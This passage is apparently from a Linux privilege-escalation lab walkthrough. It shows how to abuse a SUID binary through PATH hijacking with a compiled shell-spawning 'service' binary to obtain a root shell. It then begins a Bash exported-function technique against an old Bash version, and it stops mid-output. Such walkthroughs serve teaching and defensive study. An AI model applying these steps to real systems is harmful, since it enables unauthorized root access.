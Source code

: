     One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

- Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

    ```bash
    user@debian:~$ gcc -o service /home/user/tools/suid/service.c
    ```

- Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

    ```bash
    user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
    root@debian:~#
    ```

## SUID / SGID Executables - Abusing Shell Features (#1)
The `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env` except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

- Verify this with strings:

    ```
    bash
    user@debian:~$ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start
    ```

    In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

- Verify the version of Bash installed on the Debian VM is less than 4.2-048:

    ```bash
    user@debian:~$ /bin/bash --version
    GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
    Copyright (C) 2009 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
